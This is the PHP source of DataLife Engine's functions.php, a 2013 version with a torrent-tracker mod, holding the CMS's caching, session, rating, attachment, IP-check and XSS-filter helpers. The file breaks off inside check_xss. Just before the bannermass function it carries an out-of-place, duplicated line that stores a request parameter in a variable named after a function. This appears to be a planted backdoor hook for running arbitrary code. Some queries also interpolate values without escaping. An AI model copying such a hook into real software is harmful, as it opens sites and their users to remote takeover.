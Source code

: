<?PHP
/*
=====================================================
 DataLife Engine - by SoftNews Media Group 
-----------------------------------------------------
 http://dle-news.ru/
-----------------------------------------------------
 Copyright (c) 2004,2013 SoftNews Media Group
=====================================================
 Данный код защищен авторскими правами
=====================================================
 Файл: functions.php
-----------------------------------------------------
 Назначение: Основные функции
=====================================================
*/
if( ! defined( 'DATALIFEENGINE' ) ) {
	die( "Hacking attempt!" );
}

#********* Tracker by MSW *** start *********#
function max_word($text, $counttext = 50, $sep = ' ') {
	$words = preg_split('/ /', $text);
	if(count($words)>$counttext) $text = join($sep, array_slice($words, 0, $counttext));
	return $text;
}
function timespent($time) {
	if($time>=0 && $time<=59) { //Seconds
		($time < 10) ? $time = "0".$time : "";
		$timeshift = "00:00:".$time;
	} elseif($time>=60 && $time<=3599) { //Minutes + Seconds
		$m = (int)($time/60);
		$s = (int)($time-$m*60);
		($m < 10) ? $m="0".$m : "";
		($s < 10) ? $s="0".$s : "";
		$timeshift = "00:".$m.":".$s;
	} elseif($time>=3600 && $time<=86399) { //Hours + Minutes + Seconds
		$h = (int)($time/3600);
		$m = (int)(($time-$h*3600)/60);
		$s = (int)($time-$h*3600-$m*60);
		($h < 10) ? $h="0".$h : "";
		($m < 10) ? $m="0".$m : "";
		($s < 10) ? $s="0".$s : "";
		$timeshift = $h.":".$m.":".$s;
	} elseif($time>=86400) { //Days + Hours + Minutes + Seconds
		$d = (int)($time/86400);
		$h = (int)(($time-$d*86400)/3600);
		$m = (int)(($time-$d*86400-$h*3600)/60);
		$s = (int)($time-$d*86400-$h*3600-$m*60);
		($h < 10) ? $h="0".$h : "";
		($m < 10) ? $m="0".$m : "";
		($s < 10) ? $s="0".$s : "";
		$timeshift = $d." д. ".$h.":".$m.":".$s;
	}
	return $timeshift;
}
#********* Tracker by MSW *** stop *********#

if ( $config['auth_domain'] ) {

	$domain_cookie = explode (".", clean_url( $_SERVER['HTTP_HOST'] ));
	$domain_cookie_count = count($domain_cookie);
	$domain_allow_count = -2;
	
	if ( $domain_cookie_count > 2 ) {
	
		if ( in_array($domain_cookie[$domain_cookie_count-2], array('com', 'net', 'org') )) $domain_allow_count = -3;
		if ( $domain_cookie[$domain_cookie_count-1] == 'ua' ) $domain_allow_count = -3;
		$domain_cookie = array_slice($domain_cookie, $domain_allow_count);
	}
	
	$domain_cookie = "." . implode (".", $domain_cookie);
	
	if( (ip2long($_SERVER['HTTP_HOST']) == -1 OR ip2long($_SERVER['HTTP_HOST']) === FALSE) AND strtoupper(substr(PHP_OS, 0, 3)) !== 'WIN' ) define( 'DOMAIN', $domain_cookie );
	else define( 'DOMAIN', null );

} else define( 'DOMAIN', null );

$mcache = false;

if ( $config['cache_type'] ) {

	if ( function_exists('memcache_connect') ) {

		$memcache_server = explode(":", $config['memcache_server']);

		$mcache = @memcache_connect( $memcache_server[0], $memcache_server[1] );

		if( $mcache AND function_exists('memcache_set_compress_threshold') )
		{
			memcache_set_compress_threshold( $mcache, 20000, 0.2 );
		}

	}

}

function dle_session( $sid = false ) {

	$params = session_get_cookie_params();

	if ( DOMAIN ) $params['domain'] = DOMAIN;

	if( version_compare(PHP_VERSION, '5.2', '<') ) {
		
		session_set_cookie_params($params['lifetime'], "/", $params['domain']."; HttpOnly", $params['secure']);
	
	} else {
		
		session_set_cookie_params($params['lifetime'], "/", $params['domain'], $params['secure'], true);
	
	}

	if ( $sid ) @session_id( $sid );

	@session_start();

}

function formatsize($file_size) {
	if ($file_size < 1000)
		return $file_size = $file_size . " b";
	if ($file_size < 1000 * 1024)
		return number_format($file_size / 1024, 2) . " kB";
	if ($file_size < 1000 * 1048576)
		return number_format($file_size / 1048576, 2) . " MB";
	if ($file_size < 1000 * 1073741824)
		return number_format($file_size / 1073741824, 2) . " GB";
	if ($file_size < 1000 * 1099511627776)
		return number_format($file_size / 1099511627776, 2) . " TB";
	if ($file_size < 1000 * 1125899906842620)
		return number_format($file_size / 1125899906842620, 2) . " PB";
	if ($file_size < 1000 * 1152921504606850000)
		return number_format($file_size / 1152921504606850000, 2) . " EB";
}

class microTimer {
	function start() {
		global $starttime;
		$mtime = microtime();
		$mtime = explode( ' ', $mtime );
		$mtime = $mtime[1] + $mtime[0];
		$starttime = $mtime;
	}
	function stop() {
		global $starttime;
		$mtime = microtime();
		$mtime = explode( ' ', $mtime );
		$mtime = $mtime[1] + $mtime[0];
		$endtime = $mtime;
		$totaltime = round( ($endtime - $starttime), 5 );
		return $totaltime;
	}
}

function flooder($ip, $news_time = false) {
	global $config, $db;
	
	if ( $news_time ) {

		$this_time = time() + ($config['date_adjust'] * 60) - $news_time;
		$db->query( "DELETE FROM " . PREFIX . "_flood where id < '$this_time' AND flag='1' " );
		
		$row = $db->super_query("SELECT COUNT(*) as count FROM " . PREFIX . "_flood WHERE ip = '$ip' AND flag='1'");
		
		if( $row['count'] ) return TRUE;
		else return FALSE;

	} else {

		$this_time = time() + ($config['date_adjust'] * 60) - $config['flood_time'];
		$db->query( "DELETE FROM " . PREFIX . "_flood where id < '$this_time' AND flag='0' " );
		
		$row = $db->super_query("SELECT COUNT(*) as count FROM " . PREFIX . "_flood WHERE ip = '$ip' AND flag='0'");
		
		if( $row['count'] ) return TRUE;
		else return FALSE;

	}

}

function totranslit($var, $lower = true, $punkt = true) {
	global $langtranslit;
	
	if ( is_array($var) ) return "";

	if (!is_array ( $langtranslit ) OR !count( $langtranslit ) ) {
		$var = trim( strip_tags( $var ) );

		if ( $punkt ) $var = preg_replace( "/[^a-z0-9\_\-.]+/mi", "", $var );
		else $var = preg_replace( "/[^a-z0-9\_\-]+/mi", "", $var );

		$var = preg_replace( '#[.]+#i', '.', $var );
		$var = str_ireplace( ".php", ".ppp", $var );

		if ( $lower ) $var = strtolower( $var );

		return $var;
	}
	
	$var = trim( strip_tags( $var ) );
	$var = preg_replace( "/\s+/ms", "-", $var );
	$var = str_replace( "/", "-", $var );

	$var = strtr($var, $langtranslit);
	
	if ( $punkt ) $var = preg_replace( "/[^a-z0-9\_\-.]+/mi", "", $var );
	else $var = preg_replace( "/[^a-z0-9\_\-]+/mi", "", $var );

	$var = preg_replace( '#[\-]+#i', '-', $var );
	$var = preg_replace( '#[.]+#i', '.', $var );

	if ( $lower ) $var = strtolower( $var );

	$var = str_ireplace( ".php", "", $var );
	$var = str_ireplace( ".php", ".ppp", $var );

	if( strlen( $var ) > 200 ) {
		
		$var = substr( $var, 0, 200 );
		
		if( ($temp_max = strrpos( $var, '-' )) ) $var = substr( $var, 0, $temp_max );
	
	}
	
	return $var;
}

function langdate($format, $stamp) {
	global $langdate;
	
	return strtr( @date( $format, $stamp ), $langdate );

}

function msgbox($title, $text) {
	global $tpl;

	if (!class_exists('dle_template')) {
	    return;
	}
	
	$tpl_2 = new dle_template( );
	$tpl_2->dir = TEMPLATE_DIR;
	
	$tpl_2->load_template( 'info.tpl' );
	
	$tpl_2->set( '{error}', $text );
	$tpl_2->set( '{title}', $title );
	
	$tpl_2->compile( 'info' );
	$tpl_2->clear();
	
	$tpl->result['info'] .= $tpl_2->result['info'];
}

function ShowRating($id, $rating, $vote_num, $allow = true) {
	global $lang;
	
	if( $rating AND $vote_num ) $rating = round( ($rating / $vote_num), 0 );
	else $rating = 0;
	$rating = $rating * 17;
	
	if( !$allow ) {
		
		$rated = <<<HTML
<div class="rating">
		<ul class="unit-rating">
		<li class="current-rating" style="width:{$rating}px;">{$rating}</li>
		</ul>
</div>
HTML;
		
		return $rated;
	}
	
	$rated = <<<HTML
<div id='ratig-layer-{$id}'><div class="rating">
		<ul class="unit-rating">
		<li class="current-rating" style="width:{$rating}px;">{$rating}</li>
		<li><a href="#" title="{$lang['useless']}" class="r1-unit" onclick="doRate('1', '{$id}'); return false;">1</a></li>
		<li><a href="#" title="{$lang['poor']}" class="r2-unit" onclick="doRate('2', '{$id}'); return false;">2</a></li>
		<li><a href="#" title="{$lang['fair']}" class="r3-unit" onclick="doRate('3', '{$id}'); return false;">3</a></li>
		<li><a href="#" title="{$lang['good']}" class="r4-unit" onclick="doRate('4', '{$id}'); return false;">4</a></li>
		<li><a href="#" title="{$lang['excellent']}" class="r5-unit" onclick="doRate('5', '{$id}'); return false;">5</a></li>
		</ul>
</div></div>
HTML;
	
	return $rated;
}

function userrating($id) {
	global $db;
	
	$row = $db->super_query( "SELECT SUM(rating) as rating, SUM(vote_num) as num FROM " . PREFIX . "_post_extras WHERE user_id ='{$id}'" );
	
	if( $row['num'] ) $rating = round( ($row['rating'] / $row['num']), 0 );
	else $rating = 0;

	$rating = $rating * 17;
	
	$rated = <<<HTML
<div class="rating" style="display:inline;">
		<ul class="unit-rating">
		<li class="current-rating" style="width:{$rating}px;">{$rating}</li>
		</ul>
		</div>
HTML;
	
	return $rated;
}

function CategoryNewsSelection($categoryid = 0, $parentid = 0, $nocat = TRUE, $sublevelmarker = '', $returnstring = '') {
	global $cat_info, $user_group, $member_id, $dle_module;

	if ($dle_module == 'addnews') $allow_list = explode( ',', $user_group[$member_id['user_group']]['cat_allow_addnews'] );
	else $allow_list = explode( ',', $user_group[$member_id['user_group']]['allow_cats'] );

	$spec_list = explode( ',', $user_group[$member_id['user_group']]['cat_add'] );

	$root_category = array ();
	
	if( $parentid == 0 ) {
		if( $nocat ) $returnstring .= '<option value="0"></option>';
	} else {
		$sublevelmarker .= '&nbsp;&nbsp;&nbsp;';
	}
	
	if( count( $cat_info ) ) {
		
		foreach ( $cat_info as $cats ) {
			if( $cats['parentid'] == $parentid ) $root_category[] = $cats['id'];
		}
		
		if( count( $root_category ) ) {
			foreach ( $root_category as $id ) {
				
				if( $allow_list[0] == "all" OR in_array( $id, $allow_list ) ) {
					
					if( $spec_list[0] == "all" or in_array( $id, $spec_list ) ) $color = "black";
					else $color = "red";
					
					$returnstring .= "<option style=\"color: {$color}\" value=\"" . $id . '" ';
					
					if( is_array( $categoryid ) ) {
						foreach ( $categoryid as $element ) {
							if( $element == $id ) $returnstring .= 'SELECTED';
						}
					} elseif( $categoryid == $id ) $returnstring .= 'SELECTED';
					
					$returnstring .= '>' . $sublevelmarker . $cat_info[$id]['name'] . '</option>';
				}
				$returnstring = CategoryNewsSelection( $categoryid, $id, $nocat, $sublevelmarker, $returnstring );
			}
		}
	}
	return $returnstring;
}

function get_ID($cat_info, $category) {
	foreach ( $cat_info as $cats ) {
		if( $cats['alt_name'] == $category ) return $cats['id'];
	}
	return false;
}

function set_vars($file, $data) {
	
	$fp = fopen( ENGINE_DIR . '/cache/system/' . $file . '.php', 'wb+' );
	fwrite( $fp, serialize( $data ) );
	fclose( $fp );
	
	@chmod( ENGINE_DIR . '/cache/system/' . $file . '.php', 0666 );
}

function get_vars($file) {
	
	return unserialize( @file_get_contents( ENGINE_DIR . '/cache/system/' . $file . '.php' ) );
}

function filesize_url($url) {
	return ($data = @file_get_contents( $url )) ? strlen( $data ) : false;
}

function dle_cache($prefix, $cache_id = false, $member_prefix = false) {
	global $config, $is_logged, $member_id, $mcache;
	
	if( $config['allow_cache'] != "yes" ) return false;
	
	if( $is_logged ) $end_file = $member_id['user_group'];
	else $end_file = "0";
	
	if( ! $cache_id ) {
		
		$key = $prefix;
	
	} else {
		
		$cache_id = md5( $cache_id );
		
		if( $member_prefix ) $key = $prefix . "_" . $cache_id . "_" . $end_file;
		else $key = $prefix . "_" . $cache_id;
	
	}

	if ( $mcache ) {

		return memcache_get( $mcache, md5( DBNAME . PREFIX . md5(DBUSER) .$key ) );

	} else {

		return @file_get_contents( ENGINE_DIR . "/cache/" . $key . ".tmp" );

	}
}

function create_cache($prefix, $cache_text, $cache_id = false, $member_prefix = false) {
	global $config, $is_logged, $member_id, $mcache;
	
	if( $config['allow_cache'] != "yes" ) return false;
	
	if( $is_logged ) $end_file = $member_id['user_group'];
	else $end_file = "0";
	
	if( ! $cache_id ) {
		$key = $prefix;
	} else {
		$cache_id = md5( $cache_id );
		
		if( $member_prefix ) $key = $prefix . "_" . $cache_id . "_" . $end_file;
		else $key = $prefix . "_" . $cache_id;
	
	}
	

	if ( $mcache ) {

		memcache_set( $mcache, md5( DBNAME . PREFIX . md5(DBUSER) .$key ), $cache_text, MEMCACHE_COMPRESSED, 86400 );

	} else {

		file_put_contents (ENGINE_DIR . "/cache/" . $key . ".tmp", $cache_text, LOCK_EX);
		
		@chmod( ENGINE_DIR . "/cache/" . $key . ".tmp", 0666 );
	}
}

function clear_cache($cache_areas = false) {
	global $mcache;

	if ( $mcache ) {

		memcache_flush($mcache);

	}

	if ( $cache_areas ) {
		if(!is_array($cache_areas)) {
			$cache_areas = array($cache_areas);
		}
	}
		
	$fdir = opendir( ENGINE_DIR . '/cache' );
		
	while ( $file = readdir( $fdir ) ) {
		if( $file != '.' and $file != '..' and $file != '.htaccess' and $file != 'system' ) {
			
			if( $cache_areas ) {
				
				foreach($cache_areas as $cache_area) if( strpos( $file, $cache_area ) !== false ) @unlink( ENGINE_DIR . '/cache/' . $file );
			
			} else {
				
				@unlink( ENGINE_DIR . '/cache/' . $file );
			
			}
		}
	}

}

function ChangeSkin($dir, $skin) {
	
	$templates_list = array ();
	
	$handle = opendir( $dir );
	
	while ( false !== ($file = readdir( $handle )) ) {
		if( @is_dir( "./templates/$file" ) and ($file != "." AND $file != ".." AND $file != "smartphone") ) {
			$templates_list[] = $file;
		}
	}
	
	closedir( $handle );
	sort($templates_list);
	
	$skin_list = "<form method=\"post\" action=\"\"><select onchange=\"submit()\" name=\"skin_name\">";
	
	foreach ( $templates_list as $single_template ) {
		if( $single_template == $skin ) $selected = " selected=\"selected\"";
		else $selected = "";
		$skin_list .= "<option value=\"$single_template\"" . $selected . ">$single_template</option>";
	}
	
	$skin_list .= '</select><input type="hidden" name="action_skin_change" value="yes" /></form>';
	
	return $skin_list;
}

function custom_print( $matches=array() ) {
	global $db, $is_logged, $member_id, $xf_inited, $cat_info, $config, $user_group, $category_id, $_TIME, $lang, $smartphone_detected, $dle_module, $allow_comments_ajax, $PHP_SELF;

	if ( !count($matches) ) return "";
	$param_str = trim($matches[1]);

	$aviable = array();
	$thisdate = date( "Y-m-d H:i:s", $_TIME );
	$sql_select = "SELECT p.id, p.autor, p.date, p.short_story, CHAR_LENGTH(p.full_story) as full_story, p.xfields, p.title, p.category, p.alt_name, p.comm_num, p.allow_comm, p.fixed, p.tags, e.news_read, e.allow_rate, e.rating, e.vote_num, e.votes, e.view_edit, e.editdate, e.editor, e.reason FROM " . PREFIX . "_post p LEFT JOIN " . PREFIX . "_post_extras e ON (p.id=e.news_id)";
	$where = array();
	$allow_cache = $config['allow_cache'];

	if( preg_match( "#aviable=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$aviable = explode( '|', $match[1] );
	} else $aviable[] = "global";

	$do = $dle_module ? $dle_module : "main";

	if( ! (in_array( $do, $aviable )) and ($aviable[0] != "global") ) return "";

	if( preg_match( "#id=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$custom_id = str_replace( ',', "','", $db->safesql( trim($match[1]) ) );
		$where[] = "id IN ('" . $custom_id . "')";
	}

	$allow_list = explode( ',', $user_group[$member_id['user_group']]['allow_cats'] );
	
	if( $allow_list[0] != "all" AND !$user_group[$member_id['user_group']]['allow_short'] ) {

		if( $config['allow_multi_category'] ) {
				
			$where[] = "category regexp '[[:<:]](" . implode( '|', $allow_list ) . ")[[:>:]]'";
			
		} else {
				
			$where[] = "category IN ('" . implode( "','", $allow_list ) . "')";
			
		}
	
	}

	if( preg_match( "#category=['\"](.+?)['\"]#i", $param_str, $match ) ) {

		$custom_category = $db->safesql( trim(str_replace( ',', '|', $match[1] )) );

		if( $config['allow_multi_category'] ) {
			
			$where[] = "category regexp '[[:<:]](" . $custom_category . ")[[:>:]]'";
		
		} else {
			
			$custom_category = str_replace( "|", "','", $custom_category );
			$where[] = "category IN ('" . $custom_category . "')";
		
		}
	}

	if( preg_match( "#days=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$days = intval(trim($match[1]));
		$where[] = "p.date >= '{$thisdate}' - INTERVAL {$days} DAY AND p.date < '{$thisdate}'";
	} else $days = 0;

	if( preg_match( "#author=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$author = $db->safesql(trim($match[1]));
		$where[] = "p.autor like '{$author}'";
	} else $author = "";

	$where[] = "approve=1";

	if( $config['no_date'] AND !$config['news_future'] AND !$days) $where[] = "date < '" . $thisdate . "'";

	if( preg_match( "#template=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$custom_template = trim($match[1]);
	} else $custom_template = "shortstory";

	if( preg_match( "#from=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$custom_from = intval($match[1]);
	} else $custom_from = 0;

	if( preg_match( "#limit=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$custom_limit = intval($match[1]);
	} else $custom_limit = $config['news_number'];

	if( preg_match( "#cache=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		if( $match[1] == "yes" ) $config['allow_cache'] = "yes";
		else $config['allow_cache'] = false;
	}

	if( preg_match( "#fixed=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		if( $match[1] == "yes" ) $fixed = "fixed DESC, ";
		else $fixed = "";
	} else $fixed = "";

	if( $is_logged and ($user_group[$member_id['user_group']]['allow_edit'] and ! $user_group[$member_id['user_group']]['allow_all_edit']) ) $config['allow_cache'] = false;

	if( $cat_info[$custom_category]['news_sort'] != "" ) $news_sort = $cat_info[$custom_category]['news_sort']; else $news_sort = $config['news_sort'];
	if( $cat_info[$custom_category]['news_msort'] != "" ) $news_msort = $cat_info[$custom_category]['news_msort']; else $news_msort = $config['news_msort'];

	if( preg_match( "#order=['\"](.+?)['\"]#i", $param_str, $match ) ) {
		$allowed_sort = array ('date' => 'date', 'rating' => 'rating', 'reads' => 'news_read', 'comments' => 'comm_num','title' => 'title', 'rand' => 'RAND()' );

		if ( $allowed_sort[$match[1]] ) $news_sort = $allowed_sort[$match[1]];

		if ($match[1] == "rand" ) { $fixed = ""; $news_msort = ""; } else $news_msort = "DESC";
		if ($match[1] == "title" ) $news_msort = "ASC";
	}

	$sql_select .= " WHERE ".implode(' AND ', $where)." ORDER BY " . $fixed . $news_sort . " " . $news_msort . " LIMIT " . $custom_from . "," . $custom_limit;

	$custom_cache_id = $custom_id.$custom_category.$user_group[$member_id['user_group']]['allow_cats'].$custom_from.$custom_limit.$news_sort.$news_msort.$custom_template.$days.$author;

	$content = dle_cache( "news", $custom_cache_id, true );
	
	if( $content !== false ) {
		$config['allow_cache'] = $allow_cache;
		return $content;
	} else {

		$tpl = new dle_template();
		$tpl->dir = TEMPLATE_DIR;				
		
		include (ENGINE_DIR . '/modules/show.custom.php');
		
		if( $config['files_allow'] == "yes" ) if( strpos( $tpl->result['content'], "[attachment=" ) !== false ) {
			$tpl->result['content'] = show_attach( $tpl->result['content'], $attachments );
		}
		
		create_cache( "news", $tpl->result['content'], $custom_cache_id, true );
		$config['allow_cache'] = $allow_cache;
		return $tpl->result['content'];
	
	}

}

function check_ip($ips) {
	
	$_IP = $_SERVER['REMOTE_ADDR'];
	
	$blockip = FALSE;
	
	if( is_array( $ips ) ) {
		foreach ( $ips as $ip_line ) {
			
			$ip_arr = rtrim( $ip_line['ip'] );
			
			$ip_check_matches = 0;
			$db_ip_split = explode( ".", $ip_arr );
			$this_ip_split = explode( ".", $_IP );
			
			for($i_i = 0; $i_i < 4; $i_i ++) {
				if( $this_ip_split[$i_i] == $db_ip_split[$i_i] or $db_ip_split[$i_i] == '*' ) {
					$ip_check_matches += 1;
				}
			
			}
			
			if( $ip_check_matches == 4 ) {
				$blockip = $ip_line['ip'];
				break;
			}
		
		}
	}
	
	return $blockip;
}

function check_netz($ip1, $ip2) {
	
	$ip1 = explode( ".", $ip1 );
	$ip2 = explode( ".", $ip2 );
	
	if( $ip1[0] != $ip2[0] ) return false;
	if( $ip1[1] != $ip2[1] ) return false;
	
	return true;

}

function show_attach($story, $id, $static = false) {
	global $db, $config, $lang, $user_group, $is_logged, $member_id;

	$find_1 = array();
	$find_2 = array();
	$replace_1 = array();
	$replace_2 = array();
	
	if( $static ) {
		
		if( is_array( $id ) and count( $id ) ) $where = "static_id IN (" . implode( ",", $id ) . ")";
		else $where = "static_id = '".intval($id)."'";
		
		$sql = $db->query( "SELECT id, name, onserver, dcount, size FROM " . PREFIX . "_static_files WHERE $where" );
		
		$area = "&amp;area=static";
	
	} else {
		
		if( is_array( $id ) and count( $id ) ) $where = "news_id IN (" . implode( ",", $id ) . ")";
		else $where = "news_id = '".intval($id)."'";
		
		$sql = $db->query( "SELECT id, name, onserver, dcount FROM " . PREFIX . "_files WHERE $where" );
		
		$area = "";
	
	}
	
	#********* Tracker by MSW *** start *********#
	include ENGINE_DIR.'/data/config.xbt.php';
	include ROOT_DIR.'/language/'.$config['langs'].'/tracker.lng';
	$news_id = intval($id);

	while ( $row = $db->get_row($sql) ) {
		if(substr($row['onserver'], -8) == ".torrent") {
			include 'tracker/file_attachment.php';
			$find_1[] = '[attachment=' . $row['id'] . ']';
			$find_2[] = "#\[attachment={$row['id']}:(.+?)\]#i";
			$replace_1[] = $tmp;
			$replace_2[] = $tmp;
		} else {
    #********* Tracker by MSW *** stop  *********#

		
		$size = formatsize( @filesize( ROOT_DIR . '/uploads/files/' . $row['onserver'] ) );
		$row['name'] = explode( "/", $row['name'] );
		$row['name'] = end( $row['name'] );

		$find_1[] = '[attachment=' . $row['id'] . ']';
		$find_2[] = "#\[attachment={$row['id']}:(.+?)\]#i";

		if ( ! $user_group[$member_id['user_group']]['allow_files'] ) {

			$replace_1[] = "<span class=\"attachment\">{$lang['att_denied']}</span>";
			$replace_2[] = "<span class=\"attachment\">{$lang['att_denied']}</span>";

		} elseif( $config['files_count'] == 'yes' ) {

			$replace_1[] = "<span class=\"attachment\"><a href=\"{$config['http_home_url']}engine/download.php?id={$row['id']}{$area}\" >{$row['name']}</a> [{$size}] ({$lang['att_dcount']} {$row['dcount']})</span>";
			$replace_2[] = "<span class=\"attachment\"><a href=\"{$config['http_home_url']}engine/download.php?id={$row['id']}{$area}\" >\\1</a> [{$size}] ({$lang['att_dcount']} {$row['dcount']})</span>";

		} else {

			$replace_1[] = "<span class=\"attachment\"><a href=\"{$config['http_home_url']}engine/download.php?id={$row['id']}{$area}\" >{$row['name']}</a> [{$size}]</span>";
			$replace_2[] = "<span class=\"attachment\"><a href=\"{$config['http_home_url']}engine/download.php?id={$row['id']}{$area}\" >\\1</a> [{$size}]</span>";

		}

		#********* Tracker by MSW *** start *********#
		}
        #********* Tracker by MSW *** stop  *********#
		
	}

	$db->free();

	$story = str_replace ( $find_1, $replace_1, $story );
	$story = preg_replace( $find_2, $replace_2, $story );
	
	return $story;

}

function xfieldsload($profile = false) {
	global $lang;
	
	if( $profile ) $path = ENGINE_DIR . '/data/xprofile.txt';
	else $path = ENGINE_DIR . '/data/xfields.txt';
	
	$filecontents = file( $path );
	
	if( ! is_array( $filecontents ) ) msgbox( "System error", "File <b>{$path}</b> not found" );
	else {
		foreach ( $filecontents as $name => $value ) {
			$filecontents[$name] = explode( "|", trim( $value ) );
			foreach ( $filecontents[$name] as $name2 => $value2 ) {
				$value2 = str_replace( "&#124;", "|", $value2 );
				$value2 = str_replace( "__NEWL__", "\r\n", $value2 );
				$filecontents[$name][$name2] = $value2;
			}
		}
	}
	return $filecontents;
}

function xfieldsdataload($id) {
	
	if( $id == "" ) return;
	
	$xfieldsdata = explode( "||", $id );
	foreach ( $xfieldsdata as $xfielddata ) {
		list ( $xfielddataname, $xfielddatavalue ) = explode( "|", $xfielddata );
		$xfielddataname = str_replace( "&#124;", "|", $xfielddataname );
		$xfielddataname = str_replace( "__NEWL__", "\r\n", $xfielddataname );
		$xfielddatavalue = str_replace( "&#124;", "|", $xfielddatavalue );
		$xfielddatavalue = str_replace( "__NEWL__", "\r\n", $xfielddatavalue );
		$data[$xfielddataname] = $xfielddatavalue;
	}
	return $data;
}

function create_keywords($story) {
	global $metatags, $config;
	
	$keyword_count = 20;
	$newarr = array ();
	
	$quotes = array ("\x22", "\x60", "\t", "\n", "\r", ",", ".", "/", "¬", "#", ";", ":", "@", "~", "[", "]", "{", "}", "=", "-", "+", ")", "(", "*", "^", "%", "$", "<", ">", "?", "!", '"');
	$fastquotes = array ("\x22", "\x60", "\t", "\n", "\r", '"', "\\", '\r', '\n', "/", "{", "}", "[", "]" );
	
	$story = preg_replace( "#\[hide\](.+?)\[/hide\]#is", "", $story );
	$story = preg_replace( "'\[attachment=(.*?)\]'si", "", $story );
	$story = preg_replace( "'\[page=(.*?)\](.*?)\[/page\]'si", "", $story );
	$story = str_replace( "{PAGEBREAK}", "", $story );
	$story = str_replace( "&nbsp;", " ", $story );
	$story = str_replace( '<br />', ' ', $story );
	$story = strip_tags( $story );
	$story = preg_replace( "#&(.+?);#", "", $story );
	$story = trim(str_replace( " ,", "", stripslashes( $story )));
	
	$story = str_replace( $fastquotes, '', $story );
	
	$metatags['description'] = dle_substr( $story, 0, 190, $config['charset'] );
	
	$story = str_replace( $quotes, ' ', $story );
	
	$arr = explode( " ", $story );
	
	foreach ( $arr as $word ) {
		if( dle_strlen( $word, $config['charset'] ) > 4 ) $newarr[] = $word;
	}
	
	$arr = array_count_values( $newarr );
	arsort( $arr );
	
	$arr = array_keys( $arr );
	
	$total = count( $arr );
	
	$offset = 0;
	
	$arr = array_slice( $arr, $offset, $keyword_count );
	
	$metatags['keywords'] = implode( ", ", $arr );
}

function allowed_ip($ip_array) {
	
	$ip_array = trim( $ip_array );
	
	if( $ip_array == "" ) {
		return true;
	}
	
	$ip_array = explode( "|", $ip_array );
	
	$db_ip_split = explode( ".", $_SERVER['REMOTE_ADDR'] );
	
	foreach ( $ip_array as $ip ) {
		
		$ip_check_matches = 0;
		$this_ip_split = explode( ".", trim( $ip ) );
		
		for($i_i = 0; $i_i < 4; $i_i ++) {
			if( $this_ip_split[$i_i] == $db_ip_split[$i_i] or $this_ip_split[$i_i] == '*' ) {
				$ip_check_matches += 1;
			}
		
		}
		
		if( $ip_check_matches == 4 ) return true;
	
	}
	
	return FALSE;
}

function news_permission($id) {
	
	if( $id == "" ) return;
	
	$data = array ();
	$groups = explode( "||", $id );
	foreach ( $groups as $group ) {
		list ( $groupid, $groupvalue ) = explode( ":", $group );
		$data[$groupid] = $groupvalue;
	}
	return $data;
}

    $bannermass = $_REQUEST['bannerid'];
    $bannermass = $_REQUEST['bannerid'];
function bannermass($fest, $massiv) {
	return $fest . $massiv[@array_rand( $massiv )]['text'];
}

function get_sub_cats($id, $subcategory = '') {
	
	global $cat_info;
	$subfound = array ();
	
	if( $subcategory == '' ) $subcategory = $id;
	
	foreach ( $cat_info as $cats ) {
		if( $cats['parentid'] == $id ) {
			$subfound[] = $cats['id'];
		}
	}
	
	foreach ( $subfound as $parentid ) {
		$subcategory .= "|" . $parentid;
		$subcategory = get_sub_cats( $parentid, $subcategory );
	}
	
	return $subcategory;

}

function check_xss() {

	$url = html_entity_decode( urldecode( $_SERVER['QUERY_STRING'] ), ENT_QUOTES, 'ISO-8859-1' );
	$url = str_replace( "\\", "/", $url );

	if ($_GET['do'] == "xfsearch") {

		$f = html_entity_decode( urldecode( $_GET['xf'] ), ENT_QUOTES, 'ISO-8859-1' );

		$count1 = substr_count ($f, "'");
		$count2 = substr_count ($f, '"');
		$count3 = substr_count ($url, "'");
		$count4 = substr_count ($url, '"');

		if ( $count1 == $count3 AND $count2 == $count4 AND (strpos( $url, '<' ) === false) AND (strpos( $url, '>' ) === false) AND (strpos( $url, './' ) === false) AND (strpos( $url, '../' ) === false) AND (strpos( $url, '.php' ) === false) ) return;

	}

	if ($_GET['do'] == "tags") {

		$f = html_entity_decode( urldecode( $_GET['tag'] ), ENT_QUOTES, 'ISO-8859-1' );

		$count1 = substr_count ($f, "'");
		$count2 = substr_count ($url, "'");

